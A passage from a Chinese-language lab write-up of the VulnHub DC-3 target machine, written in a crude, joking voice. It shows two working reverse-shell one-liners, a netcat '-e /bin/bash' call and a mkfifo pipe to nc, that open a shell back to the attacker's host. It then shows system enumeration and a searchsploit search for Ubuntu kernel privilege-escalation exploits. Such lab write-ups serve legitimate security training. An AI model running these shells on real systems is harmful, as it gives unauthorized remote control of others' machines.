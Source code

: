 连上去了,手动在弹个 shell 回来
```bash
nc -nv 192.168.141.134 4444 -e /bin/bash
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/17.png)

谜题解开了,这 TM 是 openbad版本的 nc,我不管,老子就是要弹
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4444 >/tmp/f
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/18.png)

狗日的，还不是被我连上了,改下交互,查看版本
```bash
lsb_release -a
uname -a
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/14.png)

---

# 后期-提权

使用 searchsploit 找找这个版本的漏洞
```bash
searchsploit -w ubuntu 16.04 4.4.x
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/16.png)

